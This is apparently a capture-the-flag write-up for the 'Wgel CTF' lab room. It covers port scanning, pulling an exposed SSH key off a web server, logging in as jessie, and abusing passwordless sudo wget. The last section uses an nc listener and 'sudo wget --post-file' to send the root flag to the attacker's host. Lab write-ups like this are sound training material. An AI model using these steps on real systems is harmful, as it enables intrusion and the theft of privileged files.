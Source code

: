 # Wgel CTF - THM 
Can you exfiltrate the root flag?

### Discover and Scanning 

- nmap
	- port 22 : openSSH 7.2p2
	- port 80 : Apache httpd 2.4.18

- gobuster on port 80
	- a few responses but one particularly useful : sitemap/.ssh
	- navigating to <ip>/.ssh we get an id\_rsa file
	- download the ssh key but still need a user

- sifting through source for the webpage found at <ip>/sitemap
	- nothing

- curious as to why site isn't default when visiting the ip
	- view page source of <ip> 
	- comment : \<!-- Jessie don't forget to update the website --> 
	- Jessie could be a dev or systems engineer, etc 

### Exploit

- login via ssh
	- ssh -d id\_rsa jessie@\<ip>
	- successful jessie@CorpOne

### Find user flag

- find /home/jessie/ -name \*.txt
	- /home/jessie/Documents/user\_flag.txt

### Priv esc

- unaware of jessie's password, so check what sudo abilities he has
	- sudo -l
		- can run /usr/bin/wget with no password

	- no need for priv esc now

### Get root flag

	- finding root flag
		- find /root/ -name *.txt
		- /root/root_flag.txt 
	- open a nc listener 
		- nc -lvnp 9001
	- post file with wget	
		- sudo wget --post-file=/root/root_flag.txt http://<my_ip>:9001
	- flag will be printed to screen on my device
